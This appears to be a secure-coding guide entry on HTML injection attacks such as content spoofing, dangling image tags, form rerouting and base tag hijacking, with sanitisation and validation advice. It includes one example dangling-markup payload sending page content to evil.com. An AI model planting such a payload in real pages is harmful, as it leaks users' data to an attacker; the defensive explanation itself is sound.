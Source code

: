 HTML injections
-------

**Description:**

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

1. Content Spoofing 
2. Image Tag Injection 	
3. Form Rerouting 
4. Base Jumping 
5. Element Override 
6. Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarised above.

**Solution:**

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs 
whenever an attacker can inject code into your application. It is very important to sanitise and
or encode user data before you display it on screen as HTML. 

2.Image tag injection occurs whenever an attacker injects a broken image tag with a non terminated
parameter like : <img src='http://evil.com?steal.php?value=
Every content after value= parameter will now be stolen and send to evil.com by the attacker 
till the injection finds the next occurence of a matching single quote.

Again you should sanitise and encode the userinput to prevent an image tag from being injected
in your application. For whenever a user is permitted to submit an image on your application
enforce and verify the application accepts valid non-broken tags only.
 
3.The <form> tag can't be nested. The top-level occurrence of this element
always takes precedence over subsequent appearances. Again you must avoid this type by 
properly encoding and sanitising your user-inputs.

4.Whenever an attacker injects a <base> tag into your application it can steal data because
the <base> tag specifies the base URL/target to where to process his data to.

The solution to base jumping would be to us absolut paths in your application such as:
    <form action='/update_profile.php'>

instead of:
    <form action='update_profile.php'>

5/6. can both also easily be prevented simply be encoding or sanitising your userinput
submitted towards your application.

Always validate your user-input on a high level(server side constraint). Whenever your 
application expects an integer you should validate and check whether the user submitted 
input really is what you expected it to be and otherwise you terminate and log the request.

   
